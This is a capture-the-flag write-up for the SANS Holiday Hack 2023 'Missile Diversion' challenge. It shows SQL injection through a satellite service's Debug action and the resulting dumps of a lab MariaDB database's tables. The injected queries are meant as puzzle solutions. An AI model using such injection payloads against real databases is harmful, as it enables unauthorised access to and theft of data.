 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

#### **Query**: `; SELECT * FROM pointing_mode_to_str`
id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
#### **Query**: `; SELECT * FROM user_variables`
java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
#### **Query**: `; SELECT * FROM messaging`
id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|  
id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|  
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|  
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|  
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|  
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|  
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|  
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|  
#### **Query**: `; SELECT * FROM pointing_mode`
id: 1 \| numerical_mode: 0 \|  
#### **Query**: `; SELECT * FROM target_coordinates`
id: 1 lat: 1.14514 \| Ing: -145.262 \|  
#### **Query**: `; SELECT * FROM satellite_query`
VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: `import java.io.Serializable; /* Output removed to shorten report */ public class SatelliteQueryFileFolderUtility implements Serializable { /* Output removed to shorten report */`